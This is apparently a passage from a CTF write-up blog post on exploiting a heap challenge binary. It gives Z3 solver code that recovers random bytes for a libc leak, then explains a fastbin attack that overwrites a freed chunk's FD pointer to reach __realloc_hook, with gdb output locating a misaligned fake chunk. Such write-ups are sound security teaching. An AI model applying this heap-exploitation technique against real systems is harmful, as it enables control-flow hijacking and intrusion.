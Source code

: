 To do this, I added some Z3 constraints based on the outputted map, hero and level of each teammate in order to dynamically find which bytes would satisfy those constraints and produce the same output.

{% highlight python %}
for target in [teammate1, teammate2]:
    s.add(target["addr"]-(13*((0x4ec5*target["addr"]) >> 18)) == maps[target["map_x"]])
    if target["hero_x"] in ["D.VA","Orisa","Reinhardt","Roadhog","Winston","Zarya"]:
        s.add(target["addr"] & 3 == 2)
        s.add(target["addr"]-(6*((0xaaab*target["addr"]) >> 18)) == heroes[target["hero_x"]])
    elif target["hero_x"] in ["Genji","Mccree","Pharah","Reaper","76","Sombra","Tracer"]:
        s.add(target["addr"] & 3 == 3)
        s.add(target["addr"] % 7 == heroes[target["hero_x"]])
    elif target["hero_x"] in ["Ana","Lucio","Mercy","Symmetra","Zenyatta"]:
        s.add(target["addr"] & 3 == 1)
        s.add(target["addr"]-(5*((0xcccd*target["addr"]) >> 18)) == heroes[target["hero_x"]])
    elif target["hero_x"] in ["Baston","Hanzo","Junkrat","Mei","Turret","Widowmaker"]:
        s.add(target["addr"] & 3 == 0)
        s.add(target["addr"]-(6*((0xaaab*target["addr"]) >> 18)) == heroes[target["hero_x"]])
{% endhighlight %}

I then solved these constraints to discover the bytes written to `randBytes`, which I subsequently used to calculate a final libc base address.

## Fastbin attack
Now that we have the leak, the rest of the exploit is pretty straight forward.

In order to hijack the control flow of this program, we will want to overwrite a function pointer that gets called. 
We will overwrite `__realloc_hook`, since **full RELRO** is enabled, preventing us from overwriting a **GOT** entry.

To perform this overwrite, we can use a **fastbin attack** to overwrite the `FD` pointer of a `free()`'d fast chunk in order to get `malloc()` to return an almost-arbitrary address of our choosing. 

As I've mentioned in [previous posts](../2017-04-09-ASIS17-CaNaKMgF), we can abuse the fact that we can point `FD` to misaligned addresses to get around the size check that `malloc()` does. 

This looks like a good target:
{% highlight bash %}
gdb-peda$ p &__realloc_hook
$6 = (void *(**)(void *, size_t, const void *)) 0x7ffff7dd1b08 <__realloc_hook>

gdb-peda$ x/8xg 0x7ffff7dd1b08-0x20+0x5
0x7ffff7dd1aed <_IO_wide_data_0+301>:   0xfff7dd0260000000      0x000000000000007f
0x7ffff7dd1afd: 0xfff7a93270000000      0x000000000000007f
0x7ffff7dd1b0d <__realloc_hook+5>:      0x0000000000000000      0x0000000000000000
0x7ffff7dd1b1d: 0x0000000000000000      0x0000603100000000
{% endhighlight %}

After overwriting the `FD` pointer, to get `malloc()` to return our desired address, we need to allocate **two** `0x68` sized chunks.

However, to do this in the program, we will need to free another chunk after allocating the first one, since after allocating the first `0x68` sized chunk, both our `namePtr` and `emailPtr` globals will be populated and so we will be unable to allocate another chunk until one of these 2 pointers is `free()`'d. 
